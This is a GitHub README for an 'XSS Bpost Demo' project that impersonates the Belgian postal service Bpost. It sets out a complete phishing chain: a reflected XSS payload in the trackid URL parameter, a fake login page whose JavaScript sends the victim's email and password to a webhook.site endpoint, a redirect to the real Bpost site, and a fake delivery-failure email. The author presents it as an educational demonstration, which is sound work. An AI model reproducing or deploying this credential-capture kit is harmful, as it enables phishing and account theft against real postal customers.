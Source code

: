 
# XSS Bpost Demo 🚨

This project demonstrates a realistic Reflected XSS (Cross-Site Scripting) attack in a simulated delivery tracking scenario, mimicking the Belgian postal service Bpost. It includes a phishing login page, a fake email, and a redirection to the real Bpost site after credential capture.

---

## 📁 Project Structure

```
xss-bpost-demo/
│
├── index.html           # Main vulnerable tracking page (XSS injection via `trackid` parameter)
├── fake-login.html      # Fake login page (captures credentials and sends them to webhook)
├── fake-email.html      # Phishing email page (HTML standalone preview)
└── README.md            # This documentation file
```

---

## 🎯 Objective

Demonstrate a full XSS chain including:

1. **Reflected XSS** injection via URL parameter.
2. Auto-redirection to a **fake login page**.
3. Capture of **user credentials** to a webhook (e.g. webhook.site).
4. Redirection to the **official Bpost website** to maintain user trust.

---

## 🧪 Reflected XSS Injection

Open in browser (local server must be running):

```
http://localhost:8000/index.html?trackid=<script>window.location.href='fake-login.html'</script>
```

This injects a script that redirects the user to the phishing login page.

---

## 🕵️‍♀️ Fake Login Page

`fake-login.html` contains a simple login form that:

- Accepts `email` and `password`
- Sends credentials to a webhook endpoint (e.g., [Webhook.site](https://webhook.site))
- Redirects the user to the real Bpost site (`https://track.bpost.cloud/btr/web/#/search`) after login

The script used in `fake-login.html`:

```javascript
const form = document.querySelector("form");
form.addEventListener("submit", (e) => {
    e.preventDefault();
    const email = document.getElementById("email").value;
    const password = document.getElementById("password").value;

    fetch("[https://webhook.site/](https://webhook.site/b729d597-59d8-44da-948a-383d7d9a90bb)l", {
        method: "POST",
        body: JSON.stringify({ email, password }),
        headers: { "Content-Type": "application/json" }
    }).then(() => {
        window.location.href = "https://track.bpost.cloud/btr/web/#/search";
    });
});
```

> Replace the webhook URL with your own unique one from webhook.site.

---

## ✉️ Fake Email Template

`fake-email.html` simulates a phishing email stating:

- The delivery failed
- The user must click a button to reschedule

Button link leads to the vulnerable `index.html` page with XSS payload injected.

---

## 📸 Screenshots

- Fake email preview (HTML)
- Phishing login interface (mimics Bpost)
- Webhook request showing credentials captured
- Optional: Chrome DevTools with injected URL

---

## ⚠️ Legal Disclaimer

Made by Jessica (2025)
\nThis project is for educational and ethical hacking demonstrations **only**.
\nDo not deploy this code against real services or users. Always have authorization.

---

